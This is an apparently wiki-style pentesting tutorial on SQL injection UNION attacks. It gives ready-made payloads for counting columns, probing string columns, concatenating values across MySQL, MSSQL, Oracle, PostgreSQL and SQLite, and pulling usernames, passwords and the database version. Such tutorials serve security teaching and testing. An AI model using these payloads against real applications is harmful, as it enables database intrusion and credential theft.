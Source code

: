 # UNION Attacks

## Theory

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in a SQL injection UNION attack.

The UNION keyword lets you execute one or more additional SELECT queries and append the results to the original query. For example:

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

This SQL query will return a single result set with two columns, containing values from columns **a** and **b** in **table1** and columns **c** and **d** in **table2**.

## Practice

### Finding number of columns

We first need to know the number of columns in order to append data. When performing a SQL injection UNION attack, there are three effective methods to determine how many columns are being returned from the original query.

{% tabs %}
{% tab title="MySQL" %}
Using `order by`

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

Using `group by`

```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```

Using `UNION SELECT` This only works if error showing is enabled

```sql
' UNION SELECT NULL--            #The used SELECT statements have a different number of columns
' UNION SELECT NULL,NULL--       #The used SELECT statements have a different number of columns
' UNION SELECT NULL,NULL,NULL--  #No error means query uses 3 column
```
{% endtab %}
{% endtabs %}

###

### Finding the good column's data type

The reason for performing a SQL injection UNION attack is to be able to retrieve the results from an injected query. Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.

{% tabs %}
{% tab title="MySQL" %}
After already determined number of columns, you can probe each column to test whether it can hold string data by submitting a series of `UNION SELECT`. For example, if the query returns four columns, you would submit:

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
{% endtab %}
{% endtabs %}

###

### String concatenation

You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values.\
For example, on Oracle you could submit the input: `' UNION SELECT username || '~' || password FROM users--`

{% tabs %}
{% tab title="MySQL" %}
```sql
'foo' '~' 'bar' /*Note the space between the two strings*/
CONCAT('foo','~','bar')
```
{% endtab %}

{% tab title="MSSQL" %}
```sql
'foo'+'~'+'bar' 
```
{% endtab %}

{% tab title="OracleSQL" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}

{% tab title="PostgreSQL" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}

{% tab title="SQLite" %}
```sql
'foo'||'~'||'bar' 
```
{% endtab %}
{% endtabs %}

###

### Using UNION attack

When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.

For example we can retrieve the database version on MySQL:

```sql
' UNION SELECT @@version, NULL--
```

You can now use queries on this page, in combinaison with UNION injection to dump the database.

{% content-ref url="enum-database.md" %}
[enum-database.md](enum-database.md)
{% endcontent-ref %}

## Resources

{% embed url="https://portswigger.net/web-security/sql-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}
